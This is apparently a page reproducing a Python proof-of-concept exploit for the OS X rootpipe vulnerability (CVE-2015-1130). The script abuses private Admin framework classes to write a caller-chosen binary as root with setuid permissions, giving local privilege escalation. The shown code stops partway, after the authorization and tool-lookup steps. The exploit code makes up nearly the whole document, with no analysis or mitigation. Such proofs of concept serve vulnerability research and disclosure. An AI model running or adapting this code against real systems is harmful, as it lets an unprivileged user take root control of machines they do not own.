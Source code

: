 0x04 EXP
========

* * *

```
########################################################
#
#  PoC exploit code for rootpipe (CVE-2015-1130)
#
#  Created by Emil Kvarnhammar, TrueSec
#
#  Tested on OS X 10.7.5, 10.8.2, 10.9.5 and 10.10.2
#
########################################################
import os
import sys
import platform
import re
import ctypes
import objc
import sys
from Cocoa import NSData, NSMutableDictionary, NSFilePosixPermissions
from Foundation import NSAutoreleasePool

def load_lib(append_path):
    return ctypes.cdll.LoadLibrary("/System/Library/PrivateFrameworks/" + append_path);

def use_old_api():
    return re.match("^(10.7|10.8)(.\d)?$", platform.mac_ver()[0])


args = sys.argv

if len(args) != 3:
    print "usage: exploit.py source_binary dest_binary_as_root"
    sys.exit(-1)

source_binary = args[1]
dest_binary = os.path.realpath(args[2])

if not os.path.exists(source_binary):
    raise Exception("file does not exist!")

pool = NSAutoreleasePool.alloc().init()

attr = NSMutableDictionary.alloc().init()
attr.setValue_forKey_(04777, NSFilePosixPermissions)
data = NSData.alloc().initWithContentsOfFile_(source_binary)

print "will write file", dest_binary

if use_old_api():
    adm_lib = load_lib("/Admin.framework/Admin")
    Authenticator = objc.lookUpClass("Authenticator")
    ToolLiaison = objc.lookUpClass("ToolLiaison")
    SFAuthorization = objc.lookUpClass("SFAuthorization")

    authent = Authenticator.sharedAuthenticator()
    authref = SFAuthorization.authorization()

    # authref with value nil is not accepted on OS X <= 10.8
    authent.authenticateUsingAuthorizationSync_(authref)
    st = ToolLiaison.sharedToolLiaison()
    tool = st.tool()
```